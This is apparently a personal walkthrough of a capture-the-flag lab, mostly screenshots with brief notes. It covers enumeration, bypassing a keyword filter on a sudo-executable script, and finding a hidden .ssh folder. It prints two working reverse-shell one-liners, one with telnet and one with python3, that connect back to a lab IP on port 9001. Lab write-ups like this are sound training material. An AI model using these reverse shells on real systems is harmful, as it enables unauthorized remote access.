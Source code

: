 

![[Pasted image 20241220194413.png]]


![[Pasted image 20241220201932.png]]


![[Pasted image 20241220202012.png]]

Found nothing here
![[Pasted image 20241220203204.png]]


![[Pasted image 20241220202139.png]]



![[Pasted image 20241220202308.png]]



`echo hi`
![[Pasted image 20241220202408.png]]


`pwd`
![[Pasted image 20241220202442.png]]

sudo -l
![[Pasted image 20241220202546.png]]
``
ls -la
![[Pasted image 20241220202635.png]]

whoami
![[Pasted image 20241220202807.png]]


![[Pasted image 20241220203350.png]]


found a note.txt, let's see what does it say-
![[Pasted image 20241220203557.png]]

as we noted as well, here is what the note says -
![[Pasted image 20241220203648.png]]

if u remember, we can execute something  as sudo from apaar's folder
![[Pasted image 20241220202546.png]]

Time to try a php reverse shell-

![[Pasted image 20241220202635.png]]

seems like it's filtering out words like python, php, ls, cat etc...

Hence, trying common reverse shells won't work.

After fuzzing around for a while, i got a telnet shell and a python3 shell form revshells.com to work -

`TF=$(mktemp -u);mkfifo $TF && telnet 10.10.222.160 9001 0<$TF | /bin/bash 1>$TF`

`export RHOST="10.10.222.160";export RPORT=9001;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/bash")'`

![[Pasted image 20241220211814.png]]


some dead ends including a `local.txt` file that we cannot read but hey, we found a hidden ssh folder
![[Pasted image 20241220212311.png]]
![[Pasted image 20241220212359.png]]
with some authorized keys too! Sweet, let's check it out-

![[Pasted image 20241220212503.png]]


